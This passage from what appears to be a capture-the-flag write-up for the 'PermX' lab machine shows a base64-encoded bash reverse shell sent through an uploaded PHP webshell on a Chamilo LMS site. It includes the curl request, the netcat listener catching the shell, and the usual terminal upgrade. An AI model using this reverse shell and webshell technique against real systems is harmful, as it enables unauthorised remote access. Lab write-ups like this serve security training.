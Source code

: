 #### Generate Payload

I’ll make a base64-encoded [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

```

oxdf@hacky$ echo 'bash  -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' | base64 -w0
YmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK

```

I’ll test this by running the following on my machine and making sure I get a shell at a listening `nc`:

```

oxdf@hacky$ echo YmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK | base64 -d | bash

```

It works.

#### Execute

I’ll URL encode that by replacing the spaces with `+`, and send it over the webshell:

```

oxdf@hacky$ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/0xdf.php?cmd=echo+YmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK|base64+-d|bash'

```

It hangs, but at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.23 44392
bash: cannot set terminal process group (1168): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 

```

I’ll upgrade the shell using [the standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ script /dev/null -c bash
<avascript/bigupload/files$ script /dev/null -c bash                      
Script started, output log file is '/dev/null'.
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
<milo/main/inc/lib/javascript/bigupload/files$ reset                          
reset: unknown terminal type unknown
Terminal type? screen
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$

```
